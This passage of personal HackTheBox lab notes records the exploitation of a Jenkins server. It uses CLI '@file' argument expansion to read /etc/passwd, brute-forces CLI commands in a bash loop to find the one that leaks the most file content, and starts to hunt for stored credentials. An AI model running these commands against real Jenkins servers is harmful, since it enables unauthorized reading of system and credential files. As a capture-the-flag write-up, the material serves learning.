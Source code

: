 Response
![[HackTheBox/Linux/attachments/Pasted image 20250513212507.png]]

##### Create a bash script to test which Jenkin's parameters produce the most # of lines

Execute the jar client file to display the help menu

```
java -jar jenkins-cli.jar -s http://10.10.11.10:8080 help 
```

Output before awk
![[HackTheBox/Linux/attachments/Pasted image 20250513212751.png]]

Use awk to extract the parameters

```
java -jar jenkins-cli.jar -s http://10.10.11.10:8080 help 2>&1 | awk '/  [a-z]/ {print $1}'
```

Output after awk
![[HackTheBox/Linux/attachments/Pasted image 20250513212958.png]]

Now create a bash while loop to insert each of these Jenkins commands into the bash script 

```
java -jar jenkins-cli.jar -s http://10.10.11.10:8080 help 2>&1 | awk '/  [a-z]/ {print $1}' | while read cmd; do java -jar jenkins-cli.jar -s http://10.10.11.10:8080 $cmd '@/etc/passwd'; done
```

This threw an error
![[HackTheBox/Linux/attachments/Pasted image 20250513213615.png]]

Lots of weirdness with the bash script but this is the workaround

```
java -jar jenkins-cli.jar -s http://10.10.11.10:8080 help 2>&1 | awk '/  [a-z]/ {print $1}' | while read cmd; do printf "$cmd\t"; /bin/sh -c "java -jar jenkins-cli.jar -s http://10.10.11.10:8080 $cmd '@/etc/passwd' 2>&1" | wc -l &"; done
```

![[HackTheBox/Linux/attachments/Pasted image 20250513214520.png]]
- run.sh file

Output 
![[HackTheBox/Linux/attachments/Pasted image 20250513214617.png]]
- this is how we discover connect-node gives 21 lines of output :)

##### So... what file should we read 

Need to figure out where Jenkins is storing credentials. 

Pull down the latest version of Jenkins with docker

```
docker pull jenkins/jenkins
```
